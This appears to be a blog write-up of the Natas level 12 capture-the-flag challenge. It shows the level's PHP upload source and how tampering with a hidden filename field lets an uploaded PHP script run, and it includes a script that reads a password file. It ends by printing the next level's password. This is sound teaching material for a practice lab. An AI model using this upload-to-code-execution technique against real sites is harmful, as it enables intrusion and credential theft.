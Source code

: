 ```yaml
---
layout: post
title: "Natas Level12 - Level13"
date: 2015-09-24 22:28:24
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas12 seems to be a file upload page:

![Screenshot2](/assets/img/screenshots/Natas_level12-2.png)

Lets try it out with the image we got from natas2

    <screemshot>
![Screenshot3](/assets/img/screenshots/Natas_level2-3.png)
    
If we follow the link we get the image we just uploaded. 
The URL tells me this is a php page so let make a script and see if it loads the php:

    <?php
    phpinfo();
    
If we uploaded it and follow to the link we get the following error:

![Screenshot4](/assets/img/screenshots/Natas_level12-4.png)
    
Makes sense, this isn't an image and firefox can't read it as an image. Let look at the source to see if we can get any hints:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas12</h1>
    <div id="content">
    <? 

    function genRandomString() {
        $length = 10;
        $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
        $string = "";    

        for ($p = 0; $p < $length; $p++) {
            $string .= $characters[mt_rand(0, strlen($characters)-1)];
        }

        return $string;
    }

    function makeRandomPath($dir, $ext) {
        do {
        $path = $dir."/".genRandomString().".".$ext;
        } while(file_exists($path));
        return $path;
    }

    function makeRandomPathFromFilename($dir, $fn) {
        $ext = pathinfo($fn, PATHINFO_EXTENSION);
        return makeRandomPath($dir, $ext);
    }

    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
        }
    } else {
    ?>

    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Following the source, we can see that the extension of the uploaded file is set from the filename. The filename is sent with the POST request in a hidden field. Lets change this value to something with a .php and see what happens:

![Screenshot5](/assets/img/screenshots/Natas_level12-5.png)
    
Looks like the correct extension is showing up now:

![Screenshot6](/assets/img/screenshots/Natas_level12-6.png)

And we can execute the php!:

![Screenshot7](/assets/img/screenshots/Natas_level12-7.png)
    
Now lets make a script that does something:

    <?php
    echo "Getting File:</br>";
    echo file_get_contents('/etc/natas_webpass/natas13');
    echo "</br>done!";
    
And here is the password for natas13:

![Screenshot7](/assets/img/screenshots/Natas_level12-8.png)
    
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

